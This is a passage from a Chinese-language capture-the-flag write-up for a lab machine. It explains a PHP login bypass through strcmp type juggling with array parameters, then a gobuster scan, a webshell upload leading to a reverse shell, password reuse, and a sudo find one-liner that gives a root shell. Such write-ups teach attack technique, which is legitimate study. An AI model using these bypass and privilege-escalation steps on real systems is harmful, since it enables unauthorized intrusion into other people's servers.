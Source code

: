 根据此处代码逻辑，可以推断这里的行顺序完全颠倒了，我们可以使用 `tac` 来倒序输出：

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
```

可以看到这里使用 `strcmp()` 返回结果是否为 0 来判断用户名与密码是否合法，因此可以利用 `strcmp()` 函数传入非字符串值时返回 `NULL` 的特性，加上 `NULL == 0` 的 PHP 语言规则来通过校验：

```
POST /login/login.php HTTP/1.1
...

username[]=admin&password[]=123456
```

随后即可访问 `/upload.php` 上传文件，通过 gobuster 找到上传目录 `/_uploaded`：

```bash
$ gobuster dir -u http://<box_ip> -w /usr/share/wordlists/dirb/big.txt
```

随后即可访问上传的 Webshell。获取反弹 shell 后发现主机上存在 `john` 用户。检查 `/login/config.php`，发现网站中 `admin` 用户的密码，该密码同时也是主机上 `john` 用户的密码，因此可以获取 user flag。

`sudo -l` 发现 `john` 可以用 root 权限运行 `find` 命令，使用 `find . -exec /bin/sh \; -quit` 获取 root shell。
